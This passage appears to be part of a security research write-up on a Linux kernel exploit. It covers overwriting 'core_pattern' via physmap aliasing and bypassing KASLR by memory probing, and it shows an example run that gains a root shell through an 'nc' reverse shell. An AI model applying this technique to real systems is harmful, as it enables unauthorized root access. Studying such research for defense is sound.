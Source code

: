 This variable is statically allocated, so its position in the kernel text will not change across reboots. However, since our OOB write only gives access to the *physmap* memory region, we can't directly access that region. 

Luckily, physmap aliasing makes this possible:
- Subtract the kernel base: `0xFFFFFFFF82B21800 - 0xFFFFFFFF80000000 = 0x2B21800`
- Add physmap base: `0x2B21800 + 0xFFFF888000000000 = 0xFFFF888002B21800`

Now, with an arbitrary write (via the pipe trick), we can overwrite `0xFFFF888002B21800` with `|/tmp/payload`, then place a payload at `/tmp/payload`. Triggering a process crash (e.g. with SIGSEGV) will cause the kernel to launch the payload as root.

---

### Bypassing KASLR

We have one last task to do: on modern kernels, `core_pattern` address is randomized on boot due to KASLR, which tweaks the addresses of several memory regions. Only two are relevant here:
- Kernel code’s location in *physical* memory, normally loaded at `0x1000000` plus a 2MB-aligned offset.
- The starting address of the physmap, moved by a 1GB-aligned offset.

Using arbitrary read (with the pipe trick), we can find these offsets like this:
1. Probe from `0xFFFF888000000000` in 1GB increments (`0x40000000`); each unmapped read fails. The first successful read tells us the *physmap offset*.
2. Then probe onward in 2MB increments (`0x200000`), reading a few bytes each time. When the read produces data matching the start of the kernel code (precomputed from the binary kernel image), we've found the *kernel offset*.

This final formula gives us the correct address under KASLR:
```
0xFFFF888002B21800 + PHYSMAP_OFFSET + KERNEL_OFFSET
```

### That's it! 

The full exploit is available [here](https://github.com/yvgny/kernel-cfi-exploits/blob/40249961dd6686b374650f07a8f0c7408a3825ec/ea260693da894e7b078d18fca2c9c0a19b457534/poc.c) (or [here](https://github.com/yvgny/kernel-cfi-exploits/blob/40249961dd6686b374650f07a8f0c7408a3825ec/ea260693da894e7b078d18fca2c9c0a19b457534/poc_5_5_13.c) for Linux 5.5.13). For this exploit the payload file at `/tmp/rs` simply starts a reverse shell with a `nc` listener.

Here is an example run:

```bash
$ uname -a
Linux debian10 5.5.13 #2 SMP Tue Feb 9 23:15:34 CET 2021 x86_64 GNU/Linux
$ gcc -O3 -o poc poc.c
$ unshare -rfpn ./poc
[+] set up the environment
[+] prepare the vulnerable syscall
[+] exhaust buddy allocator freelist (from order 3 to 6)
[+] allocate dummy structure to reserve a slot at order 6
[+] spray task_struct structures
[+] release dummy structure to get the slot back
[+] allocate vulnerable array
[+] trigger the overwrite of an addr_limit field
[+] found the privileged thread
[+] found a kernel physmap slide of 0x1277c0000000 bytes
[+] found a kernel image slide of 0xe400000 bytes
[+] succesfully overwritten 'core_pattern' to '/tmp/rs'
[+] trigger segfault on a dummy child process
[+] done, please execute 'nc localhost 12345' to get a root shell.
$ nc localhost 12345
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 35348
root@debian10:/# whoami
root
```